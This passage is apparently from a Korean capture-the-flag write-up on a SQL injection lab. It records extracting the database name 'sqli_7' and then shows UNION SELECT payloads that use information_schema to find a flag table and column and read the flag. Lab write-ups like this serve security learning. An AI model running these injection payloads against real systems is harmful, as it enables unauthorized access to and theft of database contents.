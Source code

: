 ![데이터베이스](./screenshots/sqli_7_database.png)

- 페이지 하단에 존재하지 않던 새로운 행이 추가되었고,
**User ID 열에 `sqli_7`이 출력**되며 현재 사용 중인 데이터베이스 이름이 성공적으로 추출되었음을 확인할 수 있었다.

> **데이터베이스 이름: `sqli_7`**

- 데이터베이스 이름을 확인했으므로, 이제 **`information_schema`를 활용해 테이블과 컬럼 정보**를 식별하고,
최종적으로 **플래그 값을 추출하는 단계**로 넘어가겠다.

```html
username union select (select table_name from information_schema.tables where table_schema='sqli_7' limit 1,1),2,3,4,5,6,7,8,9,10#
```

> **테이블 이름: `flagTable`**

```html
username union select (select column_name from information_schema.columns where table_schema='sqli_7' and table_name='flagTable' limit 1,1),2,3,4,5,6,7,8,9,10#
```

> **컬럼 이름: `flag`**

```html
username union select (select flag from flagTable limit 2,1),2,3,4,5,6,7,8,9,10#
```
